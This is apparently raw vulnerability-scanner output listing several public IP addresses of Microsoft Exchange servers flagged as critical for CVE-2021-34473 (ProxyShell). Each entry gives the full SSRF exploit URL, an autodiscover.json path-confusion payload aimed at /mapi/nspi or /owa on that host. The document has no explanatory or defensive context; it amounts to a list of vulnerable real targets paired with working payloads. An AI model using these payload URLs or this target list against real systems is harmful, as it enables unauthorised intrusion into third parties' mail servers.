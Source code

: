 [CVE-2021-34473] [http] [critical] https://89.148.195.237/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 87.117.190.210  
  
---  
[CVE-2021-34473] [http] [critical] https://87.117.190.210/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 89.22.17.203  
  
---  
[CVE-2021-34473] [http] [critical] https://89.22.17.203/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://89.22.17.203/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 89.232.76.158  
  
---  
[CVE-2021-34473] [http] [critical] https://89.232.76.158/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 90.154.58.138  
  
---  
[CVE-2021-34473] [http] [critical] https://90.154.58.138/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://90.154.58.138/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 91.219.64.186  
  
---  
[CVE-2021-34473] [http] [critical] https://91.219.64.186/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://91.219.64.186/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 91.240.208.144  
  
---  
[CVE-2021-34473] [http] [critical] https://91.240.208.144/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://91.240.208.144/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  